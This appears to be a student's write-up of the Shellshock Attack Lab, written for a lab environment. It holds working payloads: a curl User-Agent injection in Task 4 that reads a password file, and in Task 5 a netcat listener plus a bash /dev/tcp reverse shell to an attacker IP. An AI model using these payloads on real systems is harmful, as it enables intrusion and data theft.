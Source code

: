 ```yaml
---
title: Shellshock Attack Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

## Experiment

Use the following commands to define a shell function, export it into the environment, and then observe if it prints `'extra'` when calling the child shell with `/bin/bash_shellshock` or `/bin/bash`.

```sh
$ foo='() { echo "hello world"; }; echo "extra";'
$ export $foo
```

As expected, using `/bin/bash_shellshock` leads to extra print out while it is clear in `/bin/bash`.


# Task 2

```sh
$ su
$ cp myprog.cgi /usr/lib/cgi-bin
$ sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
```

# Task 3

The `Apache` creates a child process to execute `bash_shellshock` with function `exec()`, and `$$` will be replaced by `bash_shellshock` with the ID of the current process. So `strings /proc/$$/environ` will be correctly executed while parsing the HTTP request.

# Task 4

For instance, I can steal passwords of the server using

```sh
$ curl -A "() { echo hello;}; echo Content-type: text/plain; echo; /bin/cat /etc/password;" http://localhost/cgi-bin/myprog.cgi
```

However, because `/etc/shadow` is only readable to `root`, I cannot steal the content of the file unless the webserver is launched by `root`.

# Task 5

- The attacker: `10.0.2.15`
- The server: `10.0.2.4`

![the attacker's IP address](./ip_addr.png)

First, build a TCP connection:

```sh
$ nc -lv 9090
```
~~It is blocked with listening on the port `9090` and print the information of whatever it fetches. Just keep the shell running and finish the following command in another shell~~

Then start a new shell and make use of the `shellshock` to map the server's `stdin`/`stdout` to local shell.

```sh
$ curl -A "() { echo hello;}; echo Content-type: text/plain; echo; echo; /bin/bash -i -> /dev/tcp/10.0.2.15/9090 0<&1 2>&1" http://10.0.2.4/cgi-bin/myprog.cgi
```

So, a reverse shell is created.

![Reverse Shell](./reverse_shell.png)

# Task 6

Reproduction of [Test 3](#Test-3) is successful while the ones of the other two tasks fail.

Because the output of environment variables is done directly by the bash itself rather than passing to any caller. The behavior will not be influenced by the version of the shell.
